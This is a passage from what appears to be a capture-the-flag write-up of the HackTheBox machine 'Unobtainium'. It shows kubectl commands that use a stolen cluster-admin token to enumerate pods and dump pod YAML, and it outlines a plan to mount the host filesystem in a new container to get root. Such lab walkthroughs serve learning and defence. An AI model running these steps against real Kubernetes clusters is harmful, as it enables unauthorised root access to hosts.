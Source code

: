 

The first line says that this user can do all commands on all
resources - full admin.

For example (and use in a minute), I can list pods across all
namespaces:



    oxdf@parrot$ kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    NAMESPACE     NAME                                  READY   STATUS             RESTARTS   AGE
    default       webapp-deployment-5d764566f4-h5zhw    1/1     Running            7          52d
    default       webapp-deployment-5d764566f4-lrpt9    1/1     Running            7          52d
    default       webapp-deployment-5d764566f4-mbprj    1/1     Running            7          52d
    dev           devnode-deployment-cd86fb5c-6ms8d     1/1     Running            28         81d
    dev           devnode-deployment-cd86fb5c-mvrfz     1/1     Running            29         81d
    dev           devnode-deployment-cd86fb5c-qlxww     1/1     Running            29         81d
    kube-system   backup-pod                            0/1     CrashLoopBackOff   347        80d
    kube-system   coredns-74ff55c5b-sclll               1/1     Running            31         81d
    kube-system   etcd-unobtainium                      1/1     Running            0          23h
    kube-system   kube-apiserver-unobtainium            1/1     Running            0          23h
    kube-system   kube-controller-manager-unobtainium   1/1     Running            34         81d
    kube-system   kube-proxy-zqp45                      1/1     Running            31         81d
    kube-system   kube-scheduler-unobtainium            1/1     Running            31         81d
    kube-system   storage-provisioner                   1/1     Running            63         81d



### Filesystem as root

#### Find Image

As with previous docker attacks, the idea is to create a new container
and map the host filesystem into the container, where I will be root.
That is basically root access to the host filesystem. The YAML files
described in the articles all involve pulling docker images from the
internet. Because Unobtainium won't have internet access, I'll opt to
work from an image that's already on the host.

I can get the full YAML for a pod with `get pod [name] -n [namespace]`:



    oxdf@parrot$ kubectl get pod webapp-deployment-5d764566f4-h5zhw -o yaml --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    apiVersion: v1
    kind: Pod              
    metadata:                                     
      creationTimestamp: "2021-02-15T18:15:14Z"
      generateName: webapp-deployment-5d764566f4-
      labels:              
        app: webapp                               
        pod-template-hash: 5d764566f4
      name: webapp-deployment-5d764566f4-h5zhw
      namespace: default   
      ownerReferences:                            
      - apiVersion: apps/v1
        blockOwnerDeletion: true
        controller: true   
        kind: ReplicaSet                          
        name: webapp-deployment-5d764566f4
        uid: 3cb2f003-ad0a-4b62-8678-ef8a552554c6
      resourceVersion: "19306"
      uid: 2b7cd0d1-d2a3-4057-a797-c1b1317a9ee9
    spec:                        
      containers:
      - image: localhost:5000/node_server